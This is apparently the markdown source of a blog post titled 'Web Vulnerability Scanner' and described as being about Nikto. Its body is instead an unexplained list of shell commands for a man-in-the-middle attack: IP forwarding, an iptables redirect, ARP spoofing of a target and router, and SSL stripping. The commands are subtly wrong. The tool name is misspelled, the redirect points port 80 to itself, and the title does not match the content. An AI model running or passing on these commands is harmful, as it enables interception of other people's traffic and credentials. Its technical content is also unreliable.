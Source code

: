 ```yaml
---
layout: post
title: Web Vulnerability Scanner
categories: [Hacking]
tags: [Kali, Linux, Hacking]
description: Nikto
fullview: true
comments: true
---
```


{% highlight yaml %}
$ echo 1 > /proc/sys/net/ipv4/ip_forward
$ iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 80
$ arpspoof -i wlan0 -t IP_TARGET ROUTE_IP
$ ssltrip -l 80
{% endhighlight %}

